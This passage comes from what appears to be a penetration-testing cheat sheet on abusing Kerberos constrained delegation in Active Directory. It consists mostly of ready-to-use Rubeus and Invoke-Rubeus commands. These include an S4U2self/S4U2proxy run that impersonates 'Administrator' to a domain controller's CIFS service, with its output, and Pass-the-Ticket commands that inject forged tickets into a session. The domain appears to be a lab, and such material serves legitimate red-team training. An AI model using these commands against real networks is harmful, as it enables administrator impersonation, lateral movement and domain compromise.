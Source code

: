 **Output**

```
[*] Action: S4U

[*] Building S4U2self request for: 'SRV01$@SECURITY.LOCAL'
[*] Using domain controller: DC01.Security.local (10.10.10.100)
[*] Sending S4U2self request to 10.10.10.100:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'SRV01$@SECURITY.LOCAL'
[*] base64(ticket.kirbi):

[Base64 Ticket Output]

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc01.security.local'
[*] Building S4U2proxy request for service: 'cifs/dc01.security.local'
[*] Using domain controller: DC01.Security.local (10.10.10.100)
[*] Sending S4U2proxy request to domain controller 10.10.10.100:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.security.local':

[Base64 Ticket Output]
```
{% endtab %}

{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Use obtained TGT to request a TGS ticket for the delegated service and impersonate another user
Invoke-Rubeus -Command "s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /user:[User] /ticket:[Base64 ticket] /nowrap"
```
{% endcode %}

**Example**

{% code overflow="wrap" %}
```powershell
Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /user:srv01$ /ticket:[Base64 ticket] /nowrap"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Pass the Ticket (PtT)

{% tabs %}
{% tab title="Rubeus Binary" %}
```bash
# Method 1: Pass ticket into seperate session (Preffered)
# Create new LUID session (Requires Elevation)
Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

# Pass ticket into new session
Rubeus.exe ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]

# Method 2: Pass ticket directly into current session (Can cause auth issues)
Rubeus.exe ptt /ticket:[Base64 ticket]
```
{% endtab %}
